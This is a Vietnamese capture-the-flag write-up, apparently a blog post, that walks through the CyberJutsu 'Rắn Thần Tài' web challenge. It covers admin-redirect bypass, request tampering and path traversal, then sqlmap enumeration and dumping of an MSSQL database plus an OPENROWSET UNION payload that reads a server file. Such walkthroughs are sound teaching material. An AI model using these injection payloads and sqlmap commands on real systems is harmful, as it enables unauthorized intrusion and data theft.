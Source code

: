 ```yaml
---
layout: post
title: Writeup Challenge Rắn Thần Tài CyberJutsu
categories: [CTF, Writeup]
tags: [web, lfi, sqli, bac]
date: 2025-02-19 18:39 +0700
img_path: '/assets/img/writeups/ran-than-tai-cbjs-2025/'
image:
  path: banner.png
---
```


Dịp Tết Ất Tỵ 2025 vừa qua, mình được một ông anh share cho challenge **Rắn Thần Tài** của bên CyberJutsu. Cơ mà lu bu mãi tới giờ mình mới lên bài được hehe =))

Vào việc thôi~

![Writeup](ran-than-tai.png)

Link: `http://206.189.39.54:8085/`

Như mọi khi, việc đầu tiên mình làm chính là recon, xem source trước, và mình tìm được ngay Easter Egg đầu tiên

![](easter-egg-1.png)

`Easter Egg 1: CBJS_EASTER_EGG{Part 1: https://lixi.momo.vn/}`

Tiếp theo, kiểm tra `robots.txt`, ta thấy `/appsettings.json` được đặt vô tình một cách đầy cố ý. Ngoài ra, khi truy cập vào các path như `/Areas`, `/Controllers`, không có gì trả về cả nhưng khi truy cập vào `/Admin` thì lại xuất hiện **404 not found**, khá lạ nhỉ

Mình thử bật **DevTools** lên, chuyển qua tab **Network** rồi load lại trang, vậy là mình thấy Easter Egg thứ hai

![](easter-egg-2.png)

`Easter Egg 2: CBJS_EASTER_EGG{Part 2: /lixi/9o3}`

Check tiếp tới `/Game`, đây cơ bản là game rắn săn mồi. Ở đây mình thấy khá nhiều bạn chơi được điểm cao nên mình cũng tò mò làm thử

Cụ thể thì sau mỗi lần thua, 1 **POST request** sẽ được gửi tới server để lưu kết quả lại, ta chỉ cần dùng **Burp Suite** chỉnh số cao lên là được :v

![](easter-egg-5.png)

`Easter Egg 5: CBJS_EASTER_EGG{Part 5 (final): 1R5b}`

Quay lại source của `/Game`, mình thấy có một vài endpoint như  `/Game/Feedback`, `/Admin/EditBackground` và `/api/ranking`, check lần lượt cả các endpoint này thì:

Trong `/Game/Feedback`, để ý 1 chút ta sẽ thấy 1 đoạn `base64` nằm ở dưới cùng, decode phát là ta đã có Easter Egg 3

![](easter-egg-3.png)

`Easter Egg 3: CBJS_EASTER_EGG{Part 3: XA5V}`

Khi truy cập `/Admin/EditBackground`, mình thấy nó redirect về `/Game`, tuy nhiên, mình có thể sử dụng **Burp Suite** để intercept request trước khi redirect

Xong mình chỉ lướt xuống là thấy ngay flag Admin Panel

![](flag-4.png)

`Flag 4: CBJS{Unauthorized_Access_On_Admin_Panel_Because_Lack_Of_Proper_Redirection}`

Đi sâu hơn tí nữa, mình biết được endpoint này dùng để thay background với param là `selectedBackground`

![](selectedBackground.png)

Vì vậy nên mình đã tạo một cái **POST request** để update xem sao, nhưng mà response trả về hơi lạ nhờ

![](lfi.png)

![](https://i.imgur.com/f5G9lxX.png)

Có vẻ như server đã đọc luôn file ảnh đó để làm **preview content**, nhưng điều này khiến nó bị dính vuln **Path Traversal**

Tận dụng vuln này, mình đã có thể lấy được `/tmp/FLAG_WEB`. Tuy nhiên thì mình lại không tiện tay lấy luôn `/tmp/FLAG_DBSERVER` được

![](flag-1.png)

`Flag 1: CBJS{Happy_Year_Of_The_Snake}`

Hmm, hồi đầu khi recon, mình có tìm được 1 file `/appsettings.json`, thế tại sao ta lại không thử luôn nhỉ?

Vậy là chỉ sau 2 lần `../`, mình đã có được Easter Egg cuối cùng :3

`Easter Egg 4: CBJS_EASTER_EGG{Part 4: VMNp}`

Còn 2 flag nữa nên mình clear cho xong luôn

Lúc nãy, ta vẫn còn 1 endpoint chưa test đó là `/api/ranking`. Tại đây mình có được param `sortParam`, tuy nhiên thì mình không tìm ra được bug

Bí nước, mình bắt đầu quay ra chạy scan, và mình scan được endpoint `search` và param `searchTerm`

![](scan.png)

Vì 2 flag còn lại đều liên quan tới database, nên mình cũng ít nhiều đoán được đây có thể là lỗ hổng liên quan tới SQL, và đúng là như thế thật

Chỉ cần quăng `test'OR 1=1;--`, mình đã có thể confirm điều này

Vấn đề còn lại là khai thác để lấy flag thôi, tuy nhiên, mình là một con gà về SQL, nên mình quyết định để cho `sqlmap` xử lý hết, cảm ơn `sqlmap` =)))

```sh
sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" --dbs

back-end DBMS: Microsoft SQL Server 2022
[*] model
[*] msdb
[*] MyAppDB
[*] tempdb

sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" -D MyAppDB --tables

Database: MyAppDB
[2 tables]
+-------------+
| CyberJutsu  |
| SnakeScores |
+-------------+

sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" -D MyAppDB -T CyberJutsu --dump

Database: MyAppDB
Table: CyberJutsu
[1 entry]
+----+--------------------------------+
| Id | flag                           |
+----+--------------------------------+
| 1  | CBJS{SQL_Injection_is_a_jutsu} |
+----+--------------------------------+
```

`Flag 3: CBJS{SQL_Injection_is_a_jutsu}`


Còn lại flag 2, lúc nãy mình đã thử đọc thông qua lỗ hổng **Path Traversal** nhưng không được, nên mình suy đoán ta chỉ có thể đọc bằng lỗ hổng **SQL Injection**

Để đọc được cũng không khó, từ lần chạy `sqlmap`, mình đã biết đây là **Microsoft SQL Server** hay **MSSQL**

Research một tí, mình tìm được cách đọc file trong MSSQL bằng cách dùng [OPENROWSET](https://www.geeksforgeeks.org/reading-a-text-file-with-sql-server/). Vậy giờ ta chỉ cần xác định số lượng columns rồi lụm flag

Cơ mà văn vở vậy thôi, sau khi mình biết nó là **MSSQL** mình đã bay ngay vào [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md) để tìm payload cho nhanh rồi

![](https://i.imgur.com/EJJTJxd.png)

```sql
0'union select 0,(select x from OpenRowset(BULK '/tmp/FLAG_DBSERVER',SINGLE_CLOB) R(x)),2;--
```

![](flag-2.png)

`Flag 2: CBJS{Have_you_Seen_Microsoft_SQL_Server_is_running_on_Linux?}`

Đây là link lì xì nè: [https://lixi.momo.vn/lixi/9o3XA5VVMNp1R5b](https://lixi.momo.vn/lixi/9o3XA5VVMNp1R5b)

Sad fact: Hồi đầu lúc challenge mới mở mình đã tìm được hết flag, nhưng vì Easter Egg 3 bị lỗi nên mình không húp lì xì được, lúc mình thấy link update thì lì xì đã hết :(

Cảm ơn mọi người đã đọc <3
